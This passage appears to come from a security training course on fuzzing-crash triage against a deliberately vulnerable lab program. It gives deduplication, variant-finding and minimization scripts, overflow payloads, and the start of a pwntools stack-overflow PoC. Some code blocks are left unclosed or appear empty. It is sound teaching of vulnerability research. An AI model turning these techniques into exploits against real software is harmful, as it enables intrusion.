> - Crash may only occur later during `free()` or when corrupted data is accessed
> - Use ASAN build to detect: `./vuln_asan 2 "$HEAP_PAYLOAD"` will report `heap-buffer-overflow`
> - This demonstrates why **sanitizers are essential** for finding heap corruption bugs

**Expected Output (Use-After-Free - No Crash)**:

```text
=== Use-After-Free Analysis ===
[*] Allocated at 0x4052a0: Hello, World!
[*] Freed, now accessing...
[*] UAF read:
[Inferior 1 (process 2131) exited normally]
No stack.
```

> [!WARNING] **Why No Crash?**
> Use-after-free bugs are often silent without sanitizers:
>
> - The freed memory is accessed but returns **garbage/stale data** (notice empty UAF read)
> - Memory may still be mapped, just marked as "free" in the allocator
> - A crash only occurs if the page is unmapped or memory is reused with different data
> - Use ASAN build to detect: `./vuln_asan 3` will report `heap-use-after-free`
> - **UAF bugs are highly exploitable** - attacker can control what replaces the freed object

**Expected Output (Double-Free - Crashes!)**:

```text
=== Double-Free Analysis ===
[*] Allocated at 0x4052a0
[*] First free done
free(): double free detected in tcache 2

Program received signal SIGABRT, Aborted.
__pthread_kill_implementation (no_tid=0, signo=6, threadid=<optimized out>) at ./nptl/pthread_kill.c:44
#0  __pthread_kill_implementation (...) at ./nptl/pthread_kill.c:44
#1  __pthread_kill_internal (signo=6, ...) at ./nptl/pthread_kill.c:78
#2  __GI___pthread_kill (...) at ./nptl/pthread_kill.c:89
#3  0x00007ffff7c4527e in __GI_raise (sig=6) at ../sysdeps/posix/raise.c:26
#4  0x00007ffff7c288ff in __GI_abort () at ./stdlib/abort.c:79
#5  0x00007ffff7c297b6 in __libc_message_impl (...) at ../sysdeps/posix/libc_fatal.c:134
#6  0x00007ffff7ca8ff5 in malloc_printerr (str=0x7ffff7dd1bf0 "free(): double free detected in tcache 2")
#7  0x00007ffff7cab55f in _int_free (...) at ./malloc/malloc.c:4541
#8  0x00007ffff7caddae in __GI___libc_free (mem=0x4052a0) at ./malloc/malloc.c:3398
#9  0x0000000000401390 in double_free () at vulnerable_suite.c:39
#10 0x0000000000401558 in main (argc=2, argv=0x7fffffffe228) at vulnerable_suite.c:68
```

> [!TIP] **Analysis Notes (Double-Free)**:
>
> - **glibc tcache detection triggered**: Modern glibc (2.26+) includes tcache double-free mitigation
> - Stack trace shows: `double_free()` → `__libc_free()` → `_int_free()` → `malloc_printerr()` → `abort()`
> - The error message `"free(): double free detected in tcache 2"` is the tcache key check
> - **SIGABRT** (signal 6) = program called `abort()` due to detected corruption
> - This mitigation can be bypassed in exploitation scenarios (e.g., filling tcache first)

# dedupe_combined.sh
cd ~/crash_analysis_lab

for crash in crashes/*; do
    # 1. Get stack hash
    stack=$(gdb -batch \
        -ex "run < $crash" \
        -ex "bt" \
        -ex "quit" \
        ./vuln_no_protect 2>&1 | grep "^#")

    stack_hash=$(echo "$stack" | \
        sed 's/0x[0-9a-f]\{8,16\}//g' | \
        md5sum | cut -d' ' -f1)

    # 2. Get CASR severity hash
    casr_hash=$(casr-san -- ./vuln_asan < $crash 2>&1 | \
        grep -E "ShortDescription|CrashLine" | md5sum | cut -d' ' -f1)

    # Combined hash
    combined=$(echo "$stack_hash $casr_hash" | md5sum | cut -d' ' -f1)

    mkdir -p deduped/$combined
    if [ ! -f deduped/$combined/crash ]; then
        cp $crash deduped/$combined/crash
        echo "$stack_hash,$casr_hash" > deduped/$combined/hashes.txt
    fi
done
```

### Differential Crash Analysis

**Concept**: Compare similar crashes to understand root cause variations and identify distinct bugs that appear similar.

**When to Use**:

- Multiple crashes in same function but different behaviors
- Crashes that look similar but have different exploitability
- Understanding crash variants from the same bug class

**Differential Analysis Workflow (for .casrep files)**:

```bash
#!/bin/bash

# Usage: ./diff_casrep.sh <crash_a.casrep> <crash_b.casrep>

REPORT_A="$1"
REPORT_B="$2"

echo "=== Differential Crash Analysis (CASREP) ==="

# Compare severity
echo -e "\n[1] Severity Comparison:"
echo "Crash A: $(jq -r '.CrashSeverity.ShortDescription' "$REPORT_A")"
echo "Crash B: $(jq -r '.CrashSeverity.ShortDescription' "$REPORT_B")"

# Compare crash locations
echo -e "\n[2] Crash Location:"
echo "Crash A: $(jq -r '.CrashLine' "$REPORT_A")"
echo "Crash B: $(jq -r '.CrashLine' "$REPORT_B")"

# Compare stack traces (first 5 frames)
echo -e "\n[3] Stack Trace Comparison:"
echo "Crash A top frames:"
jq -r '.Stacktrace[:5][]' "$REPORT_A" 2>/dev/null || jq -r '.StackTrace[:5][]' "$REPORT_A" 2>/dev/null
echo "---"
echo "Crash B top frames:"
jq -r '.Stacktrace[:5][]' "$REPORT_B" 2>/dev/null || jq -r '.StackTrace[:5][]' "$REPORT_B" 2>/dev/null

# Compare ASAN description if available
echo -e "\n[4] ASAN Description:"
echo "Crash A: $(jq -r '.AsanReport // "N/A"' "$REPORT_A" | head -3)"
echo "Crash B: $(jq -r '.AsanReport // "N/A"' "$REPORT_B" | head -3)"

# Determine if same bug
echo -e "\n[5] Same Bug Assessment:"
line_a=$(jq -r '.CrashLine' "$REPORT_A")
line_b=$(jq -r '.CrashLine' "$REPORT_B")
if [ "$line_a" == "$line_b" ]; then
    echo "LIKELY SAME BUG - Same crash line: $line_a"
else
    echo "POSSIBLY DIFFERENT BUGS"
    echo "  Crash A: $line_a"
    echo "  Crash B: $line_b"
fi
```

**Usage Examples**:

```bash
cd ~/crash_analysis_lab

# Compare two CASR clusters (DestAvNearNull variants)
./diff_casrep.sh deduped/cl4/*.casrep deduped/cl5/*.casrep

# Compare stack overflow vs heap overflow
./diff_casrep.sh deduped/stack_overflow.casrep deduped/heap_overflow.casrep
```

**Alternative: Generate and Compare from Raw Inputs**:

```bash
#!/bin/bash

# Usage: ./diff_crash_analysis.sh <test_num_a> <input_a> <test_num_b> <input_b>
cd ~/crash_analysis_lab

TEST_A="$1"
INPUT_A="$2"
TEST_B="$3"
INPUT_B="$4"

echo "=== Differential Crash Analysis ==="

# Generate CASR reports
casr-san -o /tmp/crash_a.casrep -- ./vuln_asan "$TEST_A" "$INPUT_A" 2>/dev/null
casr-san -o /tmp/crash_b.casrep -- ./vuln_asan "$TEST_B" "$INPUT_B" 2>/dev/null

# Compare severity
echo -e "\n[1] Severity Comparison:"
echo "Crash A: $(jq -r '.CrashSeverity.ShortDescription' /tmp/crash_a.casrep)"
echo "Crash B: $(jq -r '.CrashSeverity.ShortDescription' /tmp/crash_b.casrep)"

# Compare crash locations
echo -e "\n[2] Crash Location:"
echo "Crash A: $(jq -r '.CrashLine' /tmp/crash_a.casrep)"
echo "Crash B: $(jq -r '.CrashLine' /tmp/crash_b.casrep)"

# Compare stack traces (first 5 frames)
echo -e "\n[3] Stack Trace Comparison:"
echo "Crash A top frames:"
jq -r '.Stacktrace[:5][]' /tmp/crash_a.casrep 2>/dev/null
echo "---"
echo "Crash B top frames:"
jq -r '.Stacktrace[:5][]' /tmp/crash_b.casrep 2>/dev/null

# Determine if same bug
echo -e "\n[4] Same Bug Assessment:"
if [ "$(jq -r '.CrashLine' /tmp/crash_a.casrep)" == "$(jq -r '.CrashLine' /tmp/crash_b.casrep)" ]; then
    echo "LIKELY SAME BUG - Same crash line"
else
    echo "POSSIBLY DIFFERENT BUGS - Different crash lines"
fi
```

**Usage**:

```bash

# Compare stack overflow vs UAF
PAYLOAD=$(python3 -c "print('A'*100)")
./diff_crash_analysis.sh 1 "$PAYLOAD" 3 ""

# Compare stack overflow vs heap overflow
./diff_crash_analysis.sh 1 "$PAYLOAD" 2 "$(python3 -c "print('B'*60)")"
```

**Expected Output (Stack Overflow vs Heap Overflow)**:

```text
=== Differential Crash Analysis ===

[1] Severity Comparison:
Crash A: stack-buffer-overflow(write)
Crash B: heap-buffer-overflow(write)

[2] Crash Location:
Crash A: /home/dev/crash_analysis_lab/src/vulnerable_suite.c:9:5
Crash B: /home/dev/crash_analysis_lab/src/vulnerable_suite.c:17:5

[3] Stack Trace Comparison:
Crash A top frames:
    #0 0x555555602d73 in strcpy (vuln_asan)
    #1 0x555555659c75 in stack_overflow vulnerable_suite.c:9:5
    #2 0x555555659c75 in main vulnerable_suite.c:65:39
---
Crash B top frames:
    #0 0x555555602d73 in strcpy (vuln_asan)
    #1 0x555555659e38 in heap_overflow vulnerable_suite.c:17:5
    #2 0x555555659e38 in main vulnerable_suite.c:66:39

[4] Same Bug Assessment:
POSSIBLY DIFFERENT BUGS - Different crash lines
```

> [!TIP] **Analysis Insight**:
> Both crashes have `strcpy` at frame #0 (same dangerous function), but different vulnerability functions (`stack_overflow` vs `heap_overflow`).
> Same root cause pattern (unbounded copy), different memory corruption targets.

### Crash Variant Discovery

**Concept**: Given a crash, find related crashes by mutating the input to explore the bug's attack surface.

**Why Find Variants?**:

- Original crash might be DoS-only, variant might be RCE
- Different variants may bypass different mitigations
- Helps understand full scope of vulnerability
- Variants with different severity may have different priority

**Mutation-Based Variant Discovery**:

```python
#!/usr/bin/env python3
"""
crash_variant_finder.py - Find crash variants by mutating input

Usage: python3 crash_variant_finder.py ./vuln_no_protect crashes/stack_150.txt variants/

This script mutates a known crash input to discover:
- Different crash locations (new bugs)
- Different crash severities
- Smaller reproducers
- Inputs that trigger the same bug differently
"""
import subprocess
import random
import hashlib
import os
from pathlib import Path

def mutate_input(data, mutation_rate=0.05):
    """Apply random mutations to crash input

    Mutation strategies:
    - flip: XOR random byte with random value
    - insert: Add new byte at random position
    - delete: Remove random byte
    - replace: Replace byte with random value
    """
    data = bytearray(data)
    num_mutations = max(1, int(len(data) * mutation_rate))

    for _ in range(num_mutations):
        mutation_type = random.choice(['flip', 'insert', 'delete', 'replace'])
        pos = random.randint(0, len(data) - 1) if data else 0

        if mutation_type == 'flip' and data:
            data[pos] ^= random.randint(1, 255)
        elif mutation_type == 'insert':
            data.insert(pos, random.randint(0, 255))
        elif mutation_type == 'delete' and len(data) > 1:
            del data[pos]
        elif mutation_type == 'replace' and data:
            data[pos] = random.randint(0, 255)

    return bytes(data)

def test_crash(target, input_data, test_case="1", timeout=2):
    """Test if input causes crash using vulnerable_suite test case

    Note: For vulnerable_suite, format is: ./vuln <test_num> <payload>
    """
    try:
        result = subprocess.run(
            [target, test_case, input_data.decode('latin-1')],
            timeout=timeout,
            capture_output=True
        )
        return result.returncode < 0  # Negative = signal (crash)
    except subprocess.TimeoutExpired:
        return False  # Hang, not crash
    except Exception:
        return False

def get_crash_signature(target_asan, input_data, test_case="1"):
    """Get crash signature using ASAN output

    Returns normalized crash signature (addresses stripped for ASLR).
    This ensures the same crash location is identified regardless of
    memory layout randomization.
    """
    import re
    try:
        result = subprocess.run(
            [target_asan, test_case, input_data.decode('latin-1')],
            timeout=5,
            capture_output=True,
            text=True
        )
        # Extract crash location from ASAN output
        for line in result.stderr.split('\n'):
            if '#0' in line and ' in ' in line:
                # Strip addresses to normalize for ASLR
                # Before: "#0 0x56eef1918d73 in strcpy (/path/vuln+0xaed73)"
                # After:  "#0 in strcpy (/path/vuln)"
                normalized = re.sub(r'0x[0-9a-f]+', '', line)
                normalized = re.sub(r'\+0x[0-9a-f]+', '', normalized)
                normalized = re.sub(r'\s+', ' ', normalized).strip()
                return normalized
    except:
        pass
    return "unknown"

def find_variants(target, original_crash, output_dir, num_iterations=1000):
    """Find crash variants by mutating original input"""

    # Derive ASAN binary name
    target_asan = target.replace('vuln_no_protect', 'vuln_asan')

    with open(original_crash, 'rb') as f:
        original_data = f.read().strip()

    original_sig = get_crash_signature(target_asan, original_data)
    print(f"[*] Original crash signature: {original_sig}")

    variants = {}
    Path(output_dir).mkdir(exist_ok=True)

    for i in range(num_iterations):
        mutated = mutate_input(original_data)

        if test_crash(target, mutated):
            sig = get_crash_signature(target_asan, mutated)

            if sig not in variants:
                variants[sig] = mutated
                variant_hash = hashlib.md5(mutated).hexdigest()[:8]
                variant_path = f"{output_dir}/variant_{variant_hash}"

                with open(variant_path, 'wb') as f:
                    f.write(mutated)

                print(f"[+] New variant ({len(variants)}): {sig[:60]}...")

        if i % 100 == 0:
            print(f"[*] Progress: {i}/{num_iterations}, found {len(variants)} variants")

    print(f"\n[*] Found {len(variants)} unique crash variants")
    return variants

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 4:
        print(f"Usage: {sys.argv[0]} <target> <crash_input> <output_dir>")
        print(f"Example: {sys.argv[0]} ./vuln_no_protect crashes/stack_150.txt variants/")
        sys.exit(1)

    find_variants(sys.argv[1], sys.argv[2], sys.argv[3])
```

> [!NOTE] **Why Only 1 Variant?**
> The simple stack overflow always crashes at the same `strcpy` location regardless of payload content.
> To find _different_ crash variants, you need inputs that trigger different code paths.
> The script above is useful when fuzzing complex parsers where mutations might reach different vulnerable functions.

**Alternative: Multi-Vulnerability Variant Finder**

For `vulnerable_suite`, use this version that explores different test cases:

```python
#!/usr/bin/env python3
"""
multi_vuln_variant_finder.py - Find variants across different vulnerability types

Usage: python3 multi_vuln_variant_finder.py ./vuln_no_protect variants/
"""
import subprocess
import random
import hashlib
import re
from pathlib import Path

# Test cases and their required payloads
VULN_TESTS = {
    "1": lambda: "A" * random.randint(65, 200),   # Stack overflow
    "2": lambda: "B" * random.randint(33, 100),   # Heap overflow
    "3": lambda: "",                               # Use-after-free
    "4": lambda: "",                               # Double-free
    "5": lambda: random.choice(["0", "1"]),       # NULL deref
}

def test_crash(target, test_num, payload, timeout=2):
    """Test if input causes crash"""
    try:
        args = [target, test_num]
        if payload:
            args.append(payload)
        result = subprocess.run(args, timeout=timeout, capture_output=True)
        return result.returncode < 0
    except:
        return False

def get_crash_signature(target_asan, test_num, payload):
    """Get ASLR-normalized crash signature"""
    try:
        args = [target_asan, test_num]
        if payload:
            args.append(payload)
        result = subprocess.run(args, timeout=5, capture_output=True, text=True)

        for line in result.stderr.split('\n'):
            if '#0' in line and ' in ' in line:
                normalized = re.sub(r'0x[0-9a-f]+', '', line)
                normalized = re.sub(r'\+0x[0-9a-f]+', '', normalized)
                normalized = re.sub(r'\s+', ' ', normalized).strip()
                return normalized
    except:
        pass
    return "unknown"

def find_all_variants(target, output_dir, iterations_per_test=200):
    """Find crash variants across all vulnerability types"""

    target_asan = target.replace('vuln_no_protect', 'vuln_asan')
    variants = {}
    Path(output_dir).mkdir(exist_ok=True)

    for test_num, payload_gen in VULN_TESTS.items():
        print(f"\n[*] Testing vulnerability type {test_num}...")

        for i in range(iterations_per_test):
            payload = payload_gen()

            if test_crash(target, test_num, payload):
                sig = get_crash_signature(target_asan, test_num, payload)

                if sig and sig != "unknown" and sig not in variants:
                    variants[sig] = (test_num, payload)

                    variant_hash = hashlib.md5(f"{test_num}{payload}".encode()).hexdigest()[:8]
                    variant_path = f"{output_dir}/variant_{test_num}_{variant_hash}"

                    with open(variant_path, 'w') as f:
                        f.write(f"{test_num} {payload}")

                    print(f"[+] New variant ({len(variants)}): test={test_num}, {sig[:50]}...")

    print(f"\n[*] Found {len(variants)} unique crash variants across all tests")
    return variants

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <target> <output_dir>")
        sys.exit(1)

    find_all_variants(sys.argv[1], sys.argv[2])
```

**Running the Multi-Vulnerability Finder**:

```bash
cd ~/crash_analysis_lab

# Find variants across ALL vulnerability types
python3 multi_vuln_variant_finder.py ./vuln_no_protect variants/

# Create crash input files for different vulnerability types
echo "1 $(python3 -c "print('A'*150)")" > crashes/stack_150.txt
echo "2 $(python3 -c "print('B'*80)")" > crashes/heap_80.txt

# Run the variant finder
python3 crash_variant_finder.py ./vuln_no_protect crashes/stack_150.txt variants/

# Analyze each variant with CASR
for v in variants/*; do
    echo "=== $(basename $v) ==="
    casr-san -o /tmp/v.casrep -- ./vuln_asan $(cat $v) 2>/dev/null
    jq -r '.CrashSeverity.ShortDescription' /tmp/v.casrep
done
```

**Targeted Variant Discovery**:

```bash
cd ~/tools

# Install radamsa
git clone --depth 1 https://gitlab.com/akihe/radamsa.git
cd radamsa
make
sudo make install
radamsa --help

cd ~/crash_analysis_lab

echo "1 $(python3 -c "print('A'*100)")" > crash_input.txt

# Generate variants with ASLR-normalized deduplication
mkdir -p radamsa_variants
declare -A seen_sigs

for i in {1..100}; do
    radamsa crash_input.txt > /tmp/variant.txt

    # Get ASAN output and normalize
    output=$(./vuln_asan $(cat /tmp/variant.txt) 2>&1)
    if echo "$output" | grep -qE "ERROR.*Sanitizer"; then
        # Extract and normalize signature (strip addresses for ASLR)
        sig=$(echo "$output" | grep "#0" | head -1 | sed 's/0x[0-9a-f]\+//g')

        if [[ -z "${seen_sigs[$sig]}" ]]; then
            seen_sigs[$sig]=1
            cp /tmp/variant.txt radamsa_variants/variant_$i.txt
            echo "[+] Unique variant $i: $(echo "$output" | grep -oE 'stack-buffer|heap-buffer|use-after|double-free' | head -1)"
        fi
    fi
done

echo "Found ${#seen_sigs[@]} unique crash signatures"

# Found 2 unique crash signatures
```

> [!TIP] **Why deduplication matters:**
> Without deduplication, you might see 30+ "crashes" that are all the same bug. With proper ASLR-normalized signatures, radamsa found **2 truly unique** crash types:
>
> - **stack-buffer**: Original overflow from test case 1
> - **use-after**: Radamsa mutated the test number ("1" -> "3"), discovering UAF!
>
> This demonstrates radamsa's power to explore beyond the original crash input.

```bash

# Useful when you know which input region triggers the bug
python3 << 'EOF'
import random
import subprocess
import re

seen_sigs = set()

# Focus mutations on BOTH test number and payload
for i in range(20):
    # Mutate test number (1-5 are valid, but let's explore)
    test_num = str(random.randint(1, 6))

    # Generate payload with mutations
    payload = bytearray(b"A" * random.randint(50, 150))
    for _ in range(random.randint(3, 8)):
        pos = random.randint(0, len(payload) - 1)
        payload[pos] = random.randint(0, 255)

    try:
        result = subprocess.run(
            ["./vuln_asan", test_num, payload.decode('latin-1')],
            capture_output=True, timeout=5
        )

        if b"ERROR" in result.stderr:
            # Normalize signature (strip ASLR addresses)
            stderr = result.stderr.decode('latin-1', errors='ignore')
            sig_match = re.search(r'#0.*?in (\w+)', stderr)
            sig = sig_match.group(1) if sig_match else "unknown"

            if sig not in seen_sigs:
                seen_sigs.add(sig)
                err_type = stderr.split('ERROR')[1][:60] if 'ERROR' in stderr else ''
                print(f"[+] New crash (test={test_num}): {sig} - {err_type.strip()}")
    except subprocess.TimeoutExpired:
        pass
    except Exception:
        pass

print(f"\nFound {len(seen_sigs)} unique crash signatures")
EOF

### Test Case Minimization with afl-tmin

**What Is afl-tmin?**:

- AFL++ tool for minimizing crash inputs
- Uses delta debugging algorithm
- Removes bytes while preserving crash
- Produces minimal reproducer

> [!WARNING] **Important for vulnerable_suite:**
> `afl-tmin` with `@@` passes a **filename** to the target, but `vulnerable_suite` expects **command-line arguments** (`./vuln 1 AAAA`).
> For this lab, use the Python-based minimizer below or CASR's `casr-afl` for minimization.

**Basic Usage (for file-input targets)**:

```bash
cd ~/crash_analysis_lab

# -e: Solve for edge coverage only (faster)
```

**Python-Based Minimizer (for command-line argument targets)**:

```python
#!/usr/bin/env python3
"""
minimize_crash.py - Delta debugging minimizer for command-line argument targets

Usage: python3 minimize_crash.py ./vuln_asan 1 "$(cat crash_input.txt)"
"""
import subprocess
import sys

def crashes(target, test_num, payload, timeout=5):
    """Check if input still crashes"""
    try:
        result = subprocess.run(
            [target, test_num, payload],
            capture_output=True, timeout=timeout
        )
        return result.returncode < 0 or b"ERROR" in result.stderr
    except subprocess.TimeoutExpired:
        return False
    except:
        return False

def minimize(target, test_num, payload):
    """Delta debugging minimization"""
    print(f"[*] Original size: {len(payload)} bytes")

    # Phase 1: Block deletion (binary search)
    block_size = len(payload) // 2
    while block_size >= 1:
        i = 0
        while i < len(payload):
            # Try removing block
            candidate = payload[:i] + payload[i + block_size:]
            if crashes(target, test_num, candidate):
                payload = candidate
                print(f"    Block {block_size}: {len(payload)} bytes")
            else:
                i += block_size
        block_size //= 2

    # Phase 2: Byte-by-byte removal
    i = 0
    while i < len(payload):
        candidate = payload[:i] + payload[i + 1:]
        if crashes(target, test_num, candidate):
            payload = candidate
        else:
            i += 1

    print(f"[+] Minimized size: {len(payload)} bytes")
    return payload

if __name__ == "__main__":
    if len(sys.argv) < 4:
        print(f"Usage: {sys.argv[0]} <target> <test_num> <payload>")
        sys.exit(1)

    result = minimize(sys.argv[1], sys.argv[2], sys.argv[3])
    print(f"[+] Minimal payload: {repr(result)}")
```

**Running the Minimizer**:

```bash
cd ~/crash_analysis_lab

# [+] Minimal payload: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
```

> [!TIP] The minimizer found that **64 bytes** is the minimum payload to trigger the stack overflow.
> Why? The buffer is `char buffer[64]`, and `strcpy` adds a null terminator (`\0`), so 64 chars + 1 null = 65 bytes written, overflowing by exactly 1 byte!

**What Minimization Does**:

```text
Original crash: 150 bytes ("A" * 150)
Pass 1: Block-level deletion (75-byte blocks)
  → 75 bytes (still crashes)
Pass 2: Smaller blocks (37 bytes)
  → 74 bytes
Pass 3: Even smaller (18 bytes)
  → 72 bytes
Pass 4: 4-byte blocks
  → 68 bytes → 64 bytes
Pass 5: Byte-level deletion
  → 64 bytes (minimal crash - no further reduction possible)

Result: 64 chars + null terminator = 65 bytes written to buffer[64]
```

**Batch Minimization (Simple Approach)**:

```bash
cd ~/crash_analysis_lab
mkdir -p minimized

# Minimize each variant using the Python script
for crash in variants/variant_*; do
    name=$(basename "$crash")
    content=$(cat "$crash")
    test_num=$(echo "$content" | cut -d' ' -f1)
    payload=$(echo "$content" | cut -d' ' -f2-)

    echo "Minimizing $name (test=$test_num, ${#payload} bytes)..."

    # Use the minimize_crash.py script (much faster with block deletion)
    result=$(python3 minimize_crash.py ./vuln_asan "$test_num" "$payload" 2>&1 | tail -1)
    min_payload=$(echo "$result" | sed "s/.*Minimal payload: '//;s/'$//")

    echo "$test_num $min_payload" > "minimized/${name}_min"
done

# variant_5_c0c7c76d_min   3 bytes  (just "5 0" - null deref minimal trigger)
```

> [!TIP] **Minimization Results Analysis:**
>
> - **Stack overflow (test 1)**: Reduced to 64-byte payload (exact buffer size)
> - **Double-free (test 4)**: Reduced to 0-byte payload (crash is payload-independent)
> - **NULL deref (test 5)**: Reduced to "0" (just needs trigger flag)

**Tips for Effective Minimization**:

1. **Use block deletion first**: Much faster than byte-by-byte (O(n log n) vs O(n²))
2. **Set Appropriate Timeout**: ASAN is slow, use 5+ seconds
3. **Verify After Minimization**: Ensure crash still reproduces
4. **Know payload-independent crashes**: UAF/double-free don't need payload minimization

### Corpus Minimization with afl-cmin

**What Is afl-cmin?**:

- Minimizes corpus while preserving coverage
- Keeps smallest inputs that cover all edges
- Essential for efficient continuous fuzzing

> [!WARNING] **Important for vulnerable_suite:**
> Like `afl-tmin`, `afl-cmin` with `@@` passes a **filename**, but `vulnerable_suite` expects command-line arguments.
> For this lab, we demonstrate the concept but note this requires file-input targets in practice.

**Usage (for file-input targets)**:

```bash

# -T: Use multiple cores (e.g., -T all)
```

**Python-Based Corpus Minimization (for CLI argument targets)**:

```python
#!/usr/bin/env python3
"""
corpus_minimize.py - Coverage-based corpus minimization for CLI targets

Usage: python3 corpus_minimize.py ./vuln_asan corpus_dir/ corpus_min/
"""
import subprocess
import os
import sys
import re
from pathlib import Path

def get_coverage_signature(target, test_num, payload, timeout=5):
    """Get normalized coverage signature from ASAN output"""
    try:
        result = subprocess.run(
            [target, test_num, payload],
            capture_output=True, timeout=timeout
        )
        # Use stack trace as coverage proxy
        stderr = result.stderr.decode('latin-1', errors='ignore')
        # Extract function names from stack trace
        funcs = re.findall(r'in (\w+)', stderr)
        return tuple(funcs[:5]) if funcs else None
    except:
        return None

def minimize_corpus(target, input_dir, output_dir):
    """Keep smallest input for each unique coverage signature"""
    Path(output_dir).mkdir(exist_ok=True)

    # Group inputs by coverage
    coverage_map = {}  # signature -> (size, path, content)

    for crash_file in Path(input_dir).glob("*"):
        if crash_file.is_dir():
            continue

        # Read as binary to handle non-UTF8 data
        raw = crash_file.read_bytes()
        content = raw.decode('latin-1', errors='ignore').strip()
        parts = content.split(' ', 1)
        test_num = parts[0] if parts else "1"
        payload = parts[1] if len(parts) > 1 else ""

        sig = get_coverage_signature(target, test_num, payload)
        if sig is None:
            continue

        size = len(raw)
        if sig not in coverage_map or size < coverage_map[sig][0]:
            coverage_map[sig] = (size, crash_file.name, raw)

    # Write minimized corpus
    for i, (sig, (size, name, raw)) in enumerate(coverage_map.items()):
        out_path = Path(output_dir) / f"min_{i:04d}_{name}"
        out_path.write_bytes(raw)
        print(f"[+] {name} -> {out_path.name} ({size} bytes)")

    print(f"\n[*] Minimized: {len(list(Path(input_dir).glob('*')))} -> {len(coverage_map)} files")

if __name__ == "__main__":
    if len(sys.argv) < 4:
        print(f"Usage: {sys.argv[0]} <target> <input_dir> <output_dir>")
        sys.exit(1)
    minimize_corpus(sys.argv[1], sys.argv[2], sys.argv[3])
```

**Running Corpus Minimization**:

```bash
cd ~/crash_analysis_lab

### Practical Exercise

**Task**: Deduplicate and minimize crashes from the vulnerable_suite test cases

**Setup**:

```bash
cd ~/crash_analysis_lab

# Stack overflow (test 1) - varying lengths
for i in {100..200..20}; do
    echo "1 $(python3 -c "print('A'*$i)")" > crashes/stack_$i.txt
done

# TODO: Generate 5 variants each with different payloads

ls crashes/ | wc -l
```

**Challenge 1: Stack Hash Deduplication**

Write a script that:

1. Runs each crash through `./vuln_no_protect` with GDB
2. Extracts the backtrace (`bt` command)
3. Normalizes addresses (remove `0x...` to handle ASLR)
4. Computes MD5 hash of normalized stack
5. Groups crashes by unique hash

**Hints**:

- Use `gdb -batch -ex "run ..." -ex "bt" -ex "quit"`
- `sed 's/0x[0-9a-f]\+//g'` removes hex addresses
- Expected result: ~4-5 unique hashes (one per vulnerability type)

**Challenge 2: CASR Classification**

For each unique crash from Challenge 1:

1. Run through `casr-san` with the ASAN build
2. Extract `CrashSeverity.Type` from the JSON report
3. Note which bugs CASR classifies as EXPLOITABLE

**Hints**:

- `casr-san -o output.casrep -- ./vuln_asan <args>`
- `jq -r '.CrashSeverity.Type' output.casrep`
- Some vuln types (heap overflow, UAF) need ASAN to detect!

**Challenge 3: Crash Minimization**

Write a Python minimizer that:

1. Takes a crash file and binary target as input
2. Iteratively removes bytes while crash still reproduces
3. Outputs the minimal crash that still triggers the bug

**Hints**:

- Stack overflow should minimize to ~64 bytes (buffer size)
- Double-free/NULL-deref are already minimal (just the test number)
- Check `subprocess.run()` return code or ASAN output for crash detection
- Binary search is faster than linear removal

**Challenge 4: Variant Discovery**

Find additional crash variants by:

1. Mutating existing crashes with radamsa
2. Running variants through your deduplication pipeline
3. Identifying any new unique stack signatures

**Success Criteria**:

- [ ] Stack hash deduplication script working
- [ ] CASR reports generated for unique crashes
- [ ] At least one crash minimized (stack overflow: 200+ → ~64 bytes)
- [ ] Understand why heap/UAF bugs need ASAN to detect
- [ ] Document each unique bug with trigger command

### Key Takeaways

1. **Deduplication is essential**: Analyzing 100 duplicates wastes time
2. **Multiple methods improve accuracy**: Stack + coverage + CASR severity
3. **Minimization clarifies bugs**: 42 bytes easier than 8KB to understand
4. **Automation enables scale**: Manual triage doesn't scale past dozens of crashes
5. **Verification is critical**: Always confirm minimized crash reproduces bug

### Discussion Questions

1. When might stack-based deduplication give false duplicates (different bugs, same stack)?
2. How does ASLR affect crash deduplication strategies, and how does CASR handle this?
3. What are the risks of over-aggressive test case minimization with afl-tmin (e.g., losing the root cause trigger)?
4. When should you use afl-cmin (corpus minimization) vs afl-tmin (single test case minimization)?

## Day 6: Creating PoC Reproducers and Automation

- **Goal**: Build reliable, minimal Proof-of-Concept reproducers and automate the crash-to-PoC pipeline.
- **Activities**:
  - _Reading_:
    - [Exploit Development Process](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
  - _Online Resources_:
    - [Python Exploit Development Assistance](https://github.com/Gallopsled/pwntools)
    - [ExploitDB](https://gitlab.com/exploit-database/exploitdb)
  - _Tool Setup_:
    - Python 3 with pwntools
    - Exploit template frameworks
  - _Exercise_:
    - Convert minimized crash to Python PoC script
    - Automate crash→minimize→PoC workflow

### Why Reliable PoCs Matter

**Uses of PoC Scripts**:

- Demonstrate vulnerability to stakeholders
- Enable consistent reproduction for testing
- Foundation for exploit development
- Required for CVE submission
- Facilitate regression testing
- Aid in patch verification

**Quality Criteria**:

1. **Reliability**: Works ≥ 90% of attempts
2. **Clarity**: Code is readable and commented
3. **Minimalism**: No unnecessary complexity
4. **Portability**: Works across similar environments
5. **Safety**: Clearly marked as PoC, not weaponized

### Building PoCs with Python

**Why Python?**:

- Excellent libraries (pwntools, scapy, requests)
- Clear syntax for security researchers
- Easy byte manipulation
- Cross-platform
- Rapid prototyping

**pwntools Installation** (if not already done in Day 1):

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

### PoC Example: Stack Buffer Overflow

**Scenario**: Stack buffer overflow in vulnerable_suite.c (Test Case 1)

**Crash Analysis** (from Day 1):

- Buffer size: 64 bytes in stack_overflow()
- Overflow at: `strcpy(buffer, input)`
- Crash with 64+ bytes (buffer overflow)
- Minimal crash payload: 64 bytes (exact buffer boundary)

> [!NOTE] **ASAN vs Non-ASAN Behavior**
>
> - With ASAN: Crashes immediately at 64+ bytes (detects overflow)
> - Without ASAN: May need more bytes to corrupt return address
> - For reliable PoC, use ASAN build or 100+ byte payload

**PoC Script**:

```python
#!/usr/bin/env python3
"""
PoC for Stack Buffer Overflow in vulnerable_suite.c

Target: ~/crash_analysis_lab/vuln_no_protect
Test Case: 1 (stack overflow)
Type: Stack Buffer Overflow
Impact: Denial of Service (PoC), RCE with proper payload

The stack_overflow() function uses strcpy() without bounds checking,
allowing a stack buffer overflow when input exceeds 64 bytes.
"""

from pwn import *
import sys
import os

# Offset to RIP (found via cyclic pattern in Day 1)
RIP_OFFSET = 72

